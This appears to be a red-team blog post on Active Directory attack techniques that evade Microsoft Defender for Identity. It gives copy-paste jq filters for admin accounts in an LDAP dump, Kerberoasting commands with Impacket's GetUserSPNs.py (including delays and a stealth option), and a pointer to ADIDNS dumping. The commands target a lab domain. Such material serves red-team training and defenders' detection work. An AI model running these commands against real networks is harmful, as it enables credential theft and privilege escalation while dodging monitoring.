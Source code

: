 You can extract detailed information from the offline dump, such as identifying all administrative accounts and their associated group memberships (e.g. Domain Admin accounts), using this command:

```bash
cat ldap_users.txt | jq '.[] | select(.adminCount != null) | select(.adminCount | contains(1)) | \\
.sAMAccountName, .description, .name, .memberOf'
```

During a recent engagement, although the blue team had configured Microsoft Defender for Identity (MDI) with low alert thresholds and test mode settings, it still didn't generate any alerts. It's worth noting that LDAP queries still generate telemetry logs. This means if you're operating against (or alongside) an experienced blue team, they'll likely detect these activities through log analysis, even if automated alerts don't trigger.

## Kerberoasting

Kerberoasting is a powerful attack technique that continues to be widely used in red teaming due to its low detection rate and potential for significant privilege escalation.

Here’s what I tested without triggering any alerts:

1. **Extract Kerberoastable Users:** Perform an full users objectclass LDAP dump and extract users with SPNs set, then request a service ticket using Impacket scripts with time delays.
2. **Test Without Delays:** Execute the same process without delays. However, if you’re paranoid like me, it’s still a good idea to introduce time intervals between service ticket (ST) requests, as this seems highly suspicious and can raise some eyebrows in the SOC. You can refer to my modified `GetUserSPNs.py` script for this.
3. **Use the Stealth Option in `GetUserSPNs.py`:** This approach modifies the LDAP filter logic to exclude the SPN filter for the targeted user, making the process less detectable.

It is worth mentioning that Microsoft Defender for Identity (MDI) correlates LDAP queries with ST requests to identify Kerberoasting attempts. If an attacker queries LDAP for a user with an SPN and then requests an ST shortly after (within seconds), MDI is likely to flag it as suspicious activity.

Here are the commands for easy copy pasting:

```bash
# get kerberoastable users from ldap user dump
cat ldap_users.txt | jq '.[] | select(.objectCategory != null) | select(.objectCategory | test("CN=Person.*")) | \\ 
select(.servicePrincipalName != null) | select(.adminCount != null)| select(.adminCount | contains(1)) | \\ 
.sAMAccountName, .servicePrincipalName' > kerberoastable_admins.txt

# use offline users i.e. request without LDAP query
python GetUserSPNs.py essos/khal.drogo:'horse' -dc-ip 192.168.56.12 -request -usersfile kerberoastable_admins.txt

# use stealth option - omits the servicePrincipalName=* search filter
python GetUserSPNs.py essos/khal.drogo:'horse' -dc-ip 192.168.56.12 -request -stealth
```

## DNS Dumps

With AD-integrated DNS (ADIDNS), you can dump the entire DNS server, revealing all resolvable systems. Currently, this activity isn't detected by MDI, providing red teamers the opportunity to map out the entire Active Directory as well as other systems like Linux servers, firewalls, web servers, etc. I use [adidnsdump](https://github.com/dirkjanm/adidnsdump) by Dirk-Jan, it requires a (low-privileged) domain user.
